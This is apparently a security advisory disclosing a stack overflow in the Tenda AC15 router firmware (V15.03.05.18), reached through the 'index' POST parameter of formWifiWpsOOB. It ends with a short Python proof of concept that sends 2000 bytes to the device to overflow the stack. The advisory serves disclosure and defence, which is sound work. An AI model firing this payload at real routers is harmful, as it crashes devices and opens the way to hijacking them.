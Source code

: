 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `nptr` can trigger this security vulnerability.

![image-20240306172913194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172913194.png)

![image-20240314222418719](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314222418719.png)

![image-20240306172902301](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172902301.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314222742830](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314222742830.png)